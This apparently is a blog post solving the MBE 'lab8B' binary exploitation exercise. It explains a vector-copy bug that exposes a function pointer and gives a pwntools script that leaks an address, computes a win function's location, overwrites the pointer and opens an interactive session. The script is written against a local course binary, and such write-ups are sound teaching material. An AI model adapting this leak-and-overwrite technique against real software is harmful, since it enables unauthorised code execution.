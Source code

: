 ```yaml
---
layout: post
title: MBE-lab8B
---
```



Bug is where it tries to copy the struct vector in v3 to the heap. It does
&v3's memory address + i where i is index. So if I create more than 1 fav,
I can control the printFunc() --> 7th vector is in my control.

```
#!/usr/bin/python
from pwn import *

sh1 = process("./lab8B")
print sh1.recv()
raw_input()

# Win address is randomised. We need a leak.
offset = 8281

# Secret = vector2_address - 8281

# Enter data in vector 1.
sh1.send("1\n")
sh1.send("1\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

buff = "1"
sh1.send(buff)
sh1.send("\n")

sh1.send("7\n")
sh1.send("8\n")
print sh1.recv()

sh1.send("1\n")
sh1.send("2\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

sh1.send("1\n")
sh1.send("7\n")
sh1.send("8\n")
print sh1.recv()

''' LEAK!!'''
sh1.send("3\n")
sh1.send("2\n")
b = sh1.recvuntil("void printFunc")
b = b.split()
leak = b[10]
leak = int(leak,16)
win = leak-8282

#Re enter data.
sh1.send("1\n")
sh1.send("1\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

buff = str(win)
sh1.send(buff)
sh1.send("\n")

sh1.send("7\n")
sh1.send("8\n")

sh1.send("2\n")

i = 7
while i>0:
	sh1.send("4\n")
	i = i - 1

# Load favorite into vector 1.
sh1.send("6\n")
sh1.send("6\n")
sh1.send("1\n")

# Trigger vulnerability.
sh1.send("3\n")
sh1.send("1\n")

sh1.interactive()
```
